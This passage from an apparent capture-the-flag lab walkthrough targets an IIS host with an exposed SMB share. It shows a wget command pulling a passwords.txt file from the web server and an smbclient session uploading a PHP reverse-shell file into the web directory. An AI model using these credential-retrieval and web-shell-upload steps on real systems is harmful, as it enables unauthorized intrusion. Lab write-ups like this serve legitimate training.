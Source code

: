 * Displays black screen.
* No source code.

#### **nt4wrksv is same directory name identified during SMB enumeration ()** <a href="#id-44la5ytrsa2a" id="id-44la5ytrsa2a"></a>

* Add "passwords.txt" to end of URL.
* Content displayed in browser and downloadable via wget - must be same directory.

![image](<../.gitbook/assets/0 (3).png>)

wget http://10.10.245.215:49663/nt4wrksv/passwords.txt

\--2024-03-07 09:20:09-- http://10.10.245.215:49663/nt4wrksv/passwords.txt

Connecting to 10.10.245.215:49663... connected.

HTTP request sent, awaiting response... 200 OK

Length: 98 \[text/plain]

Saving to: ‘passwords.txt’

passwords.txt 100%\[==================================================================================>] 98 --.-KB/s in 0s

2024-03-07 09:20:09 (30.3 MB/s) - ‘passwords.txt’ saved \[98/98]

#### **Exploit file upload feature ()** <a href="#xv0jx6tawhh6" id="xv0jx6tawhh6"></a>

[**PHP and ASP.net are application frameworks are used by IIS**](https://learn.microsoft.com/en-us/iis/application-frameworks/scenario-build-an-aspnet-website-on-iis/configuring-step-1-install-iis-and-asp-net-modules). **Upload test .php file to /nt4wrksv via SMB**

smbclient //10.10.245.215/nt4wrksv

Password for \[WORKGROUP\kali]:

Try "help" to get a list of possible commands.

smb: \\> put php-reverse-shell.php

putting file php-reverse-shell.php as \php-reverse-shell.php (56.4 kb/s) (average 56.4 kb/s)

**Attempt to download .php file using wget - filtering is in place :(**

wget http://TARGET\_IP:49663/nt4wrksv/php-reverse-shell.php

